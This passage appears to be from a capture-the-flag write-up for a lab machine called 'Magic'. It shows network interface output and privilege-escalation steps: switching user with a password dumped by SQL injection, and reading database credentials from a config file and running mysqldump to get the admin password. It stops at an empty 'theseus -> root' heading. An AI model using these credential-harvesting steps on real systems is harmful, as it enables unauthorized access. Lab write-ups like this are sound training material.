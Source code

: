 ```console
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:c0:96 brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.185/23 brd 10.10.11.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:c096/64 scope link
       valid_lft forever preferred_lft forever
```

## Privilege Escalation

### www-data -> theseus

- su to get theseus shell using dumped password from SQLi

```console
www-data@magic:/var/www/Magic/images/uploads$ su theseus
Password: Th3s3usW4sK1ng

theseus@magic:/var/www/Magic/images/uploads$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

- another method to extract this password: enum mysql db config in Magic service

```
theseus@magic:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
...

theseus@magic:/var/www/Magic$ mysqldump Magic -u theseus -p iamkingtheseus

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;
```

### theseus -> root

